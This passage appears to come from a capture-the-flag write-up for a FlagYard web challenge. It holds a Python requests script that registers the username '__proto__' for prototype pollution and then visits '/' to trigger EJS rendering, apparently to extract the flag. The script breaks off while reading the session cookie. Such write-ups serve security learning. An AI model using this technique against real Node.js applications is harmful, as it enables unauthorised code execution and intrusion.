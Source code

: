 4 - visit the `/` endpoint to trigger the `render` function from the `ejs` module

> Because the server was restarting every few seconds, I had to write a script to automate the process of getting the flag as soon as the server starts.

```python
import requests

# Define the base URL
base_url = "http://ac32871125f6bfce44af2.playat.flagyard.com"

# Common headers
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://localhost:3000",
    "Connection": "keep-alive",
    "Referer": "http://localhost:3000/address",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "X-PwnFox-Color": "green",
    "Priority": "u=0, i"
}

# Proxy configuration
proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

# Create a session object
session = requests.Session()

# Function to send a POST request using the session
def send_post_request(url, data):
    response = session.post(url, headers=headers, data=data, allow_redirects=False, proxies=proxies)
    return response

# Function to send a GET request using the session
def send_get_request(url):
    response = session.get(url, headers=headers, allow_redirects=False, proxies=proxies)
    return response

# Register
register_url = f"{base_url}/register"
register_data = "username=__proto__&password=logan0x"
register_response = send_post_request(register_url, register_data)
if register_response.status_code == 302:
    print("Register Redirect Successful")
else:
    print("Register Failed")

# Extract the connect.sid cookie
connect_sid_cookie = None
for cookie in session.cookies:
    if cookie.name == 'connect.sid':
```
